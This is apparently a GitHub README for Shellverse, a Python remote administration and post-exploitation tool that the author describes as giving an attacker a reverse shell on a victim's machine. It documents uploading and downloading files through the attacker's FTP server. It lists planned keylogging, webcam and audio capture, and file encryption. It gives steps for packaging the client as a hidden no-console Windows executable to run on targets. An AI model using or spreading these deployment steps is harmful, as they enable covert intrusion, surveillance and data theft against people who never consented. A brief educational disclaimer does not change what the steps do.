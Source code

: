 # Shellverse

## Overview

- Shellverse is a simple multi-client Remote Administration Tool and a post-exploitation tool.
- Shellverse gives the attacker a reverse shell together with configured payloads once it has been installed on the victims machine.
- **Disclaimer**: Accessing a computer without authorization or permission is illegal, atleast in my country it is. This should only be used for educational / proof of concept purpose.
- I wote most of this code years ago when learning python, i'll try to clean the code as much as I can. Feel free to contribute by writing payloads and making pull requests.

## Features
* [x] Reverse shell.
* [x] Download files from the client's PC
* [x] Upload files to the client's PC
* [ ] webcam snap & webcam livestream.
* [ ] record audio & stream audio.
* [ ] Take screenshots 
* [ ] Encrypt files on the clients PC.
* [ ] Change the client's wallpaper.
* [ ] Keylogger.

## Supported Platforms
- The `reverse shell` payload has been tested on linux & windows computers.
- The other payloads such as `screenshot` & `wallpaper-changing` have only been tested on windows.

## Setup/ Installation requirements
### Requirements
* Python 3.
* create and activate a virtual environment
```
python -m venv virtual
#unix
source virtual/bin/activate
#windows cmd
virtual\Scripts\activate
```
* `pip install -r requirements.txt`

## Usage

### Server
- `python runserver.py` for the server to listen for connections.
- edit `server/settings.py` to configure TCP server and FTP server settings.
- Enter Host/Server address, to get an interactive prompt where you are able to view connected clients, select a specific client, and get a reverse shell

For help
```
shellverse> help
help:	Shows this help list
list:	show  connected targets
about:	print details about shellverse
show payloads:	show additional payloads
select:	Selects a target by its index. Takes index as a parameter
quit:	Stops current connection with a target. To be used when target is selected
shutdown:	Shuts server down
```
### Client & server - getting a reverse shell.
- First edit the clients configurations in `client/settings.py`.
```python
......
SERVER_ADDR= '127.0.0.1' # server address
SERVER_PORT=999 #server port, should be an integer not string
RETRY_TIME=5 #in seconds
......
```
- `python shellverse.py` on the client machine to make a tcp socket connection to the server
- check the running server instance and connect to client using `select` command.

### Payloads
- The new version of shellverse makes it very easy to use and write new payloads.
- Refer to `payloads/abstract_payload_handler.py` to see how to write a payload class.
- To uses a payload add it to the payload registry in `payloads/payload_register.py`.
- Only payloads whose platform match the configured platform in `client/settings.py` will be selected.
- Shellverse comes with some payload examples, you can easily add yours by implementing `AbstractPayloadHandler` interface.
- When I get time i'll write a wiki for this payloads
```
[1]ftp-upload: uploads a file from the attackers ftp server to the victims computer.
          usage~ ftp-upload file-path

[2]ftp-download: downloads a file/folder from the victims computer to our ftp server.
            usage~ftp-download file-path
```

### Making a windows executable and getting a reverse connection
- You can make a noconsole exe to run on the target.
`pyinstaller --noconsole --onefile shellverse.py`
run `pyinstaller --help` for more options such as an icon for the exe file.

### Getting a reverse connection
- Execute the exe in the targets machine, run the server script on the Host machine and a wait a reverse connection.
```
shellverse> 
Connection has been established: DESKTOP-R5UIHJE (192.168.0.31)
```

## Contributing
- Fork  the repo, add payloads(using the documented method) / fix bugs or any other contribution, and make a pull request.

## License
This project is Licensed under the MIT open source license
